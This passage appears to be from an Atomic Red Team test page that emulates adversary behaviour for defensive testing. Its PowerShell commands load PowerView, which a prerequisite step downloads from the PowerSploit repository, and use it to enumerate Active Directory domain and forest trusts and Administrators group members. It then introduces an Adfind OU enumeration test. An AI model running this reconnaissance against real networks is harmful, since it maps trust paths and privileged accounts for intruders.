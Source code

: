 **auto_generated_guid:** c58fbc62-8a62-489e-8f2d-3565d7d96f30

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
Get-NetDomainTrust
Get-NetForestTrust
Get-ADDomain
Get-ADGroupMember Administrators -Recursive
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

#### Dependencies: Run with `powershell`!

##### Description: PowerView PowerShell script must exist on disk

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
```

##### Description: RSAT PowerShell AD admin cmdlets must be installed

##### Check Prereq Commands:

```powershell
if ((Get-Command "Get-ADDomain" -ErrorAction Ignore) -And (Get-Command "Get-ADGroupMember" -ErrorAction Ignore)) { exit 0 } else { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "Sorry RSAT must be installed manually"
```

<br/>
<br/>

## Atomic Test #4 - Adfind - Enumerate Active Directory OUs

Adfind tool can be used for reconnaissance in an Active directory environment. This example has been documented by ransomware actors enumerating Active Directory OUs
reference- http://www.joeware.net/freetools/tools/adfind/, https://www.fireeye.com/blog/threat-research/2019/04/pick-six-intercepting-a-fin6-intrusion.html
